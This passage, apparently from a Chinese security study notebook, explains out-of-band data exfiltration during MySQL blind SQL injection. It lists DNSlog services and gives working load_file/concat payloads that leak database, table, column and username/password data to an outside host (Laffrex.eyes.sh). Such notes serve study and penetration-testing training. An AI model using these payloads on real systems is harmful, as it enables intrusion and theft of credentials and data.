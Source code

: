 ###### ⑦获取数据

#### (5). 数据外带

##### a. 定义

* 如果SQL注入仅能使用**时间盲注**，可以使用**OOB(out of band)**,将sql语句执行的结果以数据的形式外带出来

##### b. 满足条件

1. **Windows系统**
2. mysql的全局变量**secure_file_priv不为null**

##### c. DNSlog平台

| 网址                       | 介绍                          |
| -------------------------- | ----------------------------- |
| http://dnslog.cn/          | 仅支持DNS数据外带             |
| http://eyes.sh/            | 支持DNS和HTTP两种数据外带方式 |
| http://ceye.io/            | 支持DNS和HTTP两种数据外带方式 |
| Burpsuite Collaborator模块 | 支持DNS和HTTP两种数据外带方式 |

##### d. 外带方式

###### ①DNS数据外带

* 在极限条件(**内网机器不出网，支持dns出网，隐匿性高，不容易被拦截**)，**61长度限制，不支持敏感符号(@#$%)**，外带数据需要转码，规避流量监测设备

  1. 形式

  ```sql
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc')	# /abc指定外部路径    
  ```

  2. 实例

     ```sql
     #1.获取数据库名
     select * from users where id=1 and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh/abc'));
     
     #2.获取表名
     select * from users where id=1 and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh/abc'));
     
     #3.获取字段名
     select * from users where id=1 and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
     
     #4.获取字段数据
     select * from users where id>0 and load_file(concat('//',(select group_concat(concat_ws('_',id,username,password) separator '__') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
     ```
